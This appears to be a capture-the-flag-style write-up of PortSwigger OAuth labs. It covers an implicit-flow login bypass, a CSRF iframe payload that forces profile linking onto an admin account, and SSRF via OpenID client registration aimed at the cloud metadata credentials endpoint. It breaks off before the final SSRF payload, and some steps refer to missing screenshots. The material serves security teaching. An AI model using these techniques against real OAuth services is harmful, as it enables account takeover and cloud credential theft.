










**OAuth Exploitation:-**

-   Stealing OAuth Token via Referer

-   Grabbing OAuth Token via redirect_uri

-   Executing XSS via redirect_uri

-   OAuth Private Key Disclosure

-   Authorization Code Rule Violation

-   Cross-Site Request Forgery (CSRF)

Reference: PayloadsAllTheThings - OAuth

Authentication bypass via OAuth implicit flow
=============================================

This lab uses an OAuth service to allow users to log in with their social media
account. Flawed validation by the client application makes it possible for an
attacker to log in to other users' accounts without knowing their password.

To solve the lab, log in to Carlos's account. His email address is
carlos\@carlos-montoya.net.

You can log in with your own social media account using the following
credentials: wiener:peter.

References:

-   https://portswigger.net/web-security/oauth

After clicking to log in, there is a GET request:

Then there is a form to authenticate:

And then authorize the application to access some information:

One of the last requests is a POST request to “/authenticate” with the
information of the user:

I will change it to the information of the user “carlos”:

With this we get authenticated as carlos:

Forced OAuth profile linking
============================

This lab gives you the option to attach a social media profile to your account
so that you can log in via OAuth instead of using the normal username and
password. Due to the insecure implementation of the OAuth flow by the client
application, an attacker can manipulate this functionality to obtain access to
other users' accounts.

To solve the lab, use a CSRF attack to attach your own social media profile to
the admin user's account on the blog website, then access the admin panel and
delete Carlos.

The admin user will open anything you send from the exploit server and they
always have an active session on the blog website.

You can log in to your own accounts using the following credentials:

-   Blog website account: wiener:peter

-   Social media profile: peter.wiener:hotdog

References:

-   https://portswigger.net/web-security/oauth

Once authenticated, there is an options to attach a social profile:

It redirects to:

And then:

The last request is a GET request to “/oauth-linking” with a code:

Create an iframe for the victim to access this link:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<iframe src="https://0a0200d703e9d1e08553857b002e00df.web-security-academy.net/oauth-linking?code=jETtPOj5DHmBoJt_E3Po0I2PQEndgDoRhuFexNBuDpt"></iframe>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Then click “Log in with social media” and you will log in as the administrator:

SSRF via OpenID dynamic client registration
===========================================

This lab allows client applications to dynamically register themselves with the
OAuth service via a dedicated registration endpoint. Some client-specific data
is used in an unsafe way by the OAuth service, which exposes a potential vector
for SSRF.

To solve the lab, craft an SSRF attack to access
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/ and
steal the secret access key for the OAuth provider's cloud environment.

You can log in to your own account using the following credentials: wiener:peter

Note: To prevent the Academy platform being used to attack third parties, our
firewall blocks interactions between the labs and arbitrary external systems. To
solve the lab, you must use Burp Collaborator's default public server.

References:

-   https://portswigger.net/web-security/oauth/openid

We can read the configuration file in the path /.well-known/openid-configuration
of the Oauth domain:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"authorization_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/auth",
"claims_parameter_supported":false,"claims_supported":["sub","name","email","email_verified","sid","auth_time","iss"],"code_challenge_methods_supported":["S256"],"end_session_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/session/end","grant_types_supported":["authorization_code","refresh_token"],"id_token_signing_alg_values_supported":["HS256","ES256","EdDSA","PS256","RS256"],"issuer":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net","jwks_uri":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/jwks","registration_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/reg","response_modes_supported":["form_post","fragment","query"],"response_types_supported":["code"],"scopes_supported":["openid","offline_access","profile","email"],"subject_types_supported":["public"],"token_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"token_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"token_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/token","request_object_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"request_parameter_supported":false,"request_uri_parameter_supported":true,"require_request_uri_registration":true,"userinfo_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/me","userinfo_signing_alg_values_supported":["HS256","ES256","EdDSA","PS256","RS256"],"introspection_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/token/introspection","introspection_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"introspection_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"revocation_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/token/revocation","revocation_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"revocation_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"claim_types_supported":["normal"]}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The registration endpoint is
https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/reg. We can
register using a POST request like this:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/reg HTTP/2
Host: oauth-0a76003403dd792f81c9abe702320017.oauth-server.net
...

{
    "application_type": "web",
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ],
    "client_name": "My Application",
    "logo_uri": "https://client-app.com/logo.png",
    "token_endpoint_auth_method": "client_secret_basic",
    "jwks_uri": "https://client-app.com/my_public_keys.jwks",
    "userinfo_encrypted_response_alg": "RSA1_5",
    "userinfo_encrypted_response_enc": "A128CBC-HS256"
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We can retrieve the information with a GET request using the client uri and the
access token:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/reg/2KNEf4dJKOmBdXye_KEhK?access_token=6G8_0Ow8SO_MDIBo4h8J23k9WsLmZCjY9AiWEM0j26v
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We can set the URIs to the one we want to obtain:

During the login process there was a request to get the application logo:

We can change the client_id for the one of the new application:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /client/m7xK68ZFDecUNKJ6U91xk/logo
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

